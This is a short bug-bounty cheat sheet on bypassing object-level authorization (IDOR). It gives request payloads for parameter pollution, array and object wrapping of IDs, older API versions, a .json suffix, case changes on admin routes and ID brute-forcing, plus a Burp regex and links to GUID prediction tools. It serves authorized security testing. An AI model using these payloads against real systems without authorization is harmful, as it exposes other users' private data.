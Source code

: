 # IDOR

Basically try to screw with evertything.

## Burp filter

`(?i)\b\w*id\b(?!\w)\s*=\s*("[^"]*"|'[^']*'|[^&\s}]*)`

## Add parameters into the endpoints

```
GET /api_v1/messages --> 401 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution

```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:

```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in**Ruby**!

```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.

```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:

```
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admin/myinfo
- Replace request method with GET/POST/PUT/DELETE/PATCH
- Check if Referer header is used to validate requests
- Swap GUID with numeric ID or email
- Try obvious GUIDs such as 00000-0000-0000-00000 or 11111-11…

## GUID

GUID v1 can be easy exploitable

- [https://github.com/intruder-io/guidtool](https://github.com/intruder-io/guidtool)
- [https://github.com/felipecaon/uuidv1gen](https://github.com/felipecaon/uuidv1gen)